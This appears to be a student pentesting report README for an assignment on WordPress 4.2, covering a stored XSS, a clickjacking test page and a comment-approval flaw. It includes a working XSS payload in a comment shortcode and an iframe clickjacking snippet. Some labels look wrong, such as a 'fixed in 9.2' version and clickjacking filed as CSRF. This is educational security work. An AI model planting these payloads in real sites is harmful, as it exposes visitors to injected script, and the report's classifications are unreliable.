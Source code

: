 # Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **three vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. POC Authentication Stored Cross-Site Scripting (XSS)

- [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version:  9.2
- [ ] GIF Walkthrough: 
    
    
    ![](https://media.giphy.com/media/1BeG0ImJSqnIEOqv8r/giphy.gif)

- [ ] Steps to recreate: 
> A user or and admin inserts an javascript code `'<a href="[caption code=">]</a><a title=" onemouseover=alert('XSS!') ">link</a>` in the comment
> When the user or admin hovers over the the link then they will encounter a XSS messgae


2. ClickJacking (CSRF)

- [ ] Summary: 
    - Vulnerability types: CSRF
    - Tested in version: 4.2
    - Fixed in version:  4.2.2
- [ ] GIF Walkthrough:

    ![](https://media.giphy.com/media/7JEtlSnVUxW1SaFwlc/giphy.gif)
    
- [ ] Steps to recreate: 
> A user or an admin insterts an malicious html code into a comment
```html
<html>
   <head>
     <title>Clickjack test page</title>
   </head>
   <body>
     <p>Website is vulnerable to clickjacking!</p>
     <iframe src="http://www.target.site" width="500" height="500"></iframe>
   </body>
</html> 
```
> Click the submit button
> refresh page and you will see the mini website within the comment

3. UserEnumeration (CSRF)

- [ ] Summary: 
    - Vulnerability types: CSRF
    - Tested in version: 4.2
    - Fixed in version:  4.2.2
- [ ] GIF Walkthrough:

    ![](https://media.giphy.com/media/uFi9nF5mIAhKvISknT/giphy.gif)

- [ ] Steps to recreate: 
> A user will submit a comment for the admin to approve it
> Admin accepts comment
> The same user can post multiple comments without being approved
  
    
